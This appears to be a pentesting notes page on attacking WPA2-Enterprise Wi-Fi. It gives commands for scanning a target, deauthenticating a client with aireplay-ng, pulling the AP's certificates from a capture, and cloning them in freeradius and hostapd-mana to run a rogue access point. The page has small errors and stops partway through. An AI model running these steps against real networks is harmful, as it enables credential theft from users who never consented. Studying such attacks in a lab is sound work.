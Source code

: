 # Enterprise

* Uses Extensible Authentication Protocol (EPA) framework to allow for different types of authentication
* Authentication is done using a Remote Authentication Dial-In User Service (RADIUS) server
* Client authenticates using EAP frames depending on the agreed upon authentication scheme
* They are relayed by the AP to the RADIUS server
* If authentication is successfull, then the result is used as a Pairwise Master Key (PMK) for the four-way hanshake instead of the Pre Shared Key (PSK).

We will create a rogue AP that matches the target closely

## PEAP Exchange


## Installation

```bash
# Hostapd-mana
sudo apt-get install hostapd-mana -y
```
[Rogue AP with Mana Instructions](../rogue-ap.md)

```bash
# Install and configure freeradius (optional)
sudo apt-get install freeradius -y
```


## Commands

* Run [setup](../../setup.md) first
* Two terminals are needed
* At least on client associated with the AP

```bash
# [Terminal One]
# Collect data about the victim AP - specifically CA stuff
# The goal is to create a rogue AP
sudo airodump-ng $INTERFACE

# Look for MGT as AUTH - this is enterprise

# Stop it
qq

# Now target is found, do normal capture of it

# Set interface to monitor mode
sudo airmon-ng start $INTERFACE

# Start monitoring to collect data
sudo airodump-ng -c $CHANNEL --bssid $BSSID -w $TAG --output-format pcap $INTERFACE

# [Terminal Two]
# Run the deauthentication attack to get four-way handshake
sudo aireplay-ng --deauth 1 -a $BSSID -c $CLIENT $INTERFACE

# Wait for the four-way handshake to appear in airodump-ng window.

# Stop it
qq

# Turn off monitor mode
sudo airmon-ng stop $INTERFACE

# Open Wirshark
sudo wireshark $PCAP

# Filter for certificate
tls.handshake.certificate
# OR
tls.handshake.certificate

# Drill down to get the certs
# Extensible Authentication Protocol -> Transport Layer Security -> TLSv1 Record layer: Handshake Protocol Certificate ...
#Expand Handshake Protocol: Certificate
#Certificates
#... one or more certificates will appear as Certificate: <details>
# For each certificate, right click and select Export Packet Bytes
# Save each one with the .der extension
# Display info
# openssl x509 -inform der -in DER_CERTIFICATE_FILENAME -text
# Convert to PEM format
# openssl x509 -inform der -in DER_CERTIFICATE_FILENAME -outform pem -out PEM_OUTPUT.crt

# [Terminal Two]
sudo apt-get install freeradius -y

cd /etc/freeradius/3.0/certs

# Create this as close to the target's AP as possible
# Use wireshark to view the certificate details under the TLS layer
vi ca.cnf

[certificate_authority]
countryName             = US
stateOrProvinceName     = OR
localityName            = Portland
organizationName        = Ashat
emailAddress            = ca@ashat.com
commonName              = "Ashat Certificate Authority"
```

# Check validity of cert's expiration date(.pem/.crt)
# openssl x509 -in CERT_FILENAME -noout -enddate

## References

* [Challenge Handshake Authentication Protocol (CHAP)](https://en.wikipedia.org/wiki/Challenge-Handshake_Authentication_Protocol)
* [Extensible Authentication Protocol (EAP)](https://en.wikipedia.org/wiki/Extensible_Authentication_Protocol)
* [EAP PEAP Authentication Protocol](https://wiki.freeradius.org/protocol/EAP-PEAP)
[EAP-TLS Authentication Protocol](https://datatracker.ietf.org/doc/html/rfc5216)
* [MS-CHAP](* [Extensible Authentication Protocol (EAP)](https://en.wikipedia.org/wiki/Extensible_Authentication_Protocol))
* [Password Authentication Protocol (PAP)](https://en.wikipedia.org/wiki/Password_Authentication_Protocol)
* [RADIUS](https://en.wikipedia.org/wiki/RADIUS)

